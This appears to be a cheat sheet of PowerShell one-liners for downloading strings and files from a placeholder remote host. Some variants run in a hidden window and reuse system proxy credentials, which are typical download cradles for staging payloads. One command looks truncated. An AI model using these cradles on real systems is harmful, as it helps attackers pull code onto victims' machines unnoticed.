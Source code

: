 ### Download a string - DownloadString
```
(New-Object Net.WebClient).downloadString('https://<rhost>')
```

### Download a string - DownloadData
```
$str = (New-Object Net.WebClient).DownloadData('https://<rhost>'); [Text.Encoding]::UTF8.GetString($str)
```

### Download a string - ComObject
```
$ie = New-Object -ComObject InternetExplorer.Application; $ie.visible=$False; $ie.navigate('https://<rhost>'); sleep 5; $response=$ie.Document.body.innerHTML; $ie.quit(); $response -replace "<pre>","" -replace "</pre>",""
```

### Download a string - ComObject
```
$h = New-Object -ComObject Msxml2.XMLHTTP; $h.open('GET','https://<rhost>',$false); $h.send(); echo $h.responseText
```

### Download string using default proxy settings - Downloadstring
```
powershell.exe -nop -w hidden -c $t=New-Object Net.Webclient; $t.proxy=[Net.WebRequest]::GetSystemWebProxy(); $t.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials; $t.downloadstring('https://<rhost>')
```

### Download string using default proxy settings - DownloadString
```
powershell.exe -nop -w hidden -c $t=New-Object Net.Webclient; $t.Proxy.Credentials = [Net.CredentialCache]::DefaultNetworkCredentials; $t.downloadString('http://<rhost>')
```

### Download string - XML Load
```
$XmlDoc = New-Object System.Xml.XmlDocument
$XmlDoc.Load("<urlToXmlFile>")
$XmlDoc.<node>.<node>.<node>
```

### Download a file - Invoke-Web-Request
```
iwr 'https://<rhost>' -OutFile <file> -UseBasicParsing
```

### Download a file - Invoke-RestMethod
```
Invoke-RestMethod 'https://<rhost>' -OutFile <file>
```

### Download a file - Start-BitsTransfer
```
Start-BitsTransfer 'https://<rhost>' -Destination <file>
```

### Download a file - DownloadFile
```
$webClient = [Net.WebClient]::new(); $webClient.DownloadFile('https://<rhost>', '<fullPathFile>')
```

### Download a file - ComObject
```
[Net.WebRequest]::DefaultWebProxy; [Net.CredentialCache]::DefaultNetworkCredentials; $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://<rhost>',$false);$h.send();ie
```


### Configure TLS version
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::'Tls11,Tls12'
```


